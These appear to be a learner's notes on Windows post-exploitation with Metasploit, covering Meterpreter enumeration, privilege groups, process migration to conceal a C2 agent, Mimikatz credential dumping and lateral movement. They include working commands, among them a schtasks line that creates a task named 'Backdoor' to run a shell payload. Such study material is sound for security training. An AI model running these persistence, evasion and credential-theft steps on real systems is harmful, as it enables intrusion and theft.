 ```bash
getwd
ifconfig
sysinfo
upload
download
search
run win_privs
run win_enum
```
Privelege Escalation
Users
	: default group that all new local users are added to.
Domain Users
	: default group that a new domain user is added to
Domain administrators
	: very high privileges in Active Directory, allows the modification of group policies, creation of users, ability to set permissionsl etc.
Administrators
	: local group for administrators, allowed to o create local users, assign them to local groups, reset passwords, etc.
MITRE technique T1543.003
	: create or modify sytsem process: Windows service
Process Migration/Injection
	: moving the active process of the C2 agent to another active process.
		_essentially allows a current process to "inject" or "migrate" its data into another process. The old process takes the name of the new, migrated, process_
	we can use this to conceal the identity of a C2 agent and moves it to a more stable process
Migrate Walkthrough
```bash
migrate         #shows syntax
ps              #shows active processes
# we must migrate to a process that does not interfere with core windows process. svchost.exe is a common usable process
migrate 3612    #takes us to process 3612
```
Windows Persistence
```bash
shell       #drops us into a cmd shell
schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"   #creates our task to execute our payload at midnight everyday
schtasks /run /tn Backdoor      #runs our task manually to test our task settings giving us a SUCCESS message back.
```
Windows Credentials Refresher
	: credentials stored in the Security Accounts Manager (SAM) database.
		_think /etc/shadow in linux for windows._
	This data base is stored within the Local Security Authority Subsystem Service (LSASS)
		Local account paswords are stored in the SAM whereas Domain accounts are not stored in the SAM but their credentials are stored in the registry
Mimikatz
	: Windows-purposed credential dumpng tool that is able to decrypt almost all stored credentials in Windows.
		_the metasploit version of Mimikatz is called **kiwi**_
Lateral movement
	: moving through the network from one machine to another.
		_these techniques often overlap with initial access techniques, as both tactics typicaly leverage the execution of code._
			1. remote services
			2. Remote Desktop Protocol
			3. Exploitation of Remote Services
			4. SMB/Windows Admin Shares
Credential Access